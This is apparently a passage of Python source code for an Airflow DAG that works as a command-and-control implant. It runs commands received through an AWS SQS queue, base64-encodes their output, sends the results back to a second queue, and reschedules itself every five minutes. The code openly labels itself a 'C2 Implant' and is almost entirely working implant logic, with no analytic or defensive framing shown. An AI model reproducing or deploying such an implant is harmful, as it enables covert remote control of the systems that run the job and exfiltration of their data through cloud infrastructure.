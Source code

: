 ```python
            )
            stdout = process.stdout
            stderr = process.stderr
            return_code = process.returncode
            print(f"C2 Implant: Command executed with return code {return_code}")

        except Exception as e:
            stdout = ""
            stderr = f"Command execution failed: {str(e)}"
            return_code = -1

        # 3. Send results back
        result_payload = {
            "command": command,
            "return_code": return_code,
            # Encode to handle non-JSON-safe characters
            "stdout": base64.b64encode(stdout.encode('utf-8')).decode('ascii'),
            "stderr": base64.b64encode(stderr.encode('utf-8')).decode('ascii'),
        }

        sqs_client.send_message(
            QueueUrl=results_queue_url,
            MessageBody=json.dumps(result_payload)
        )
        print(f"C2 Implant: Sent results to {results_queue_url}")

        # 4. Delete the command message so it's not processed again
        sqs_client.delete_message(
            QueueUrl=command_queue_url,
            ReceiptHandle=receipt_handle
        )
        print("C2 Implant: Deleted command message.")

    except Exception as e:
        print(f"C2 Implant: An unexpected error occurred: {e}")


with DAG(
    dag_id="c2_implant_sqs",
    start_date=datetime(2023, 1, 1),
    # Run every 5 minutes to check for new commands
    schedule_interval=timedelta(minutes=5),
    catchup=False,
    tags=["security", "c2"],
) as dag:
    c2_task = PythonOperator(
        task_id="c2_implant_task",
        python_callable=c2_implant_task,
    )
```
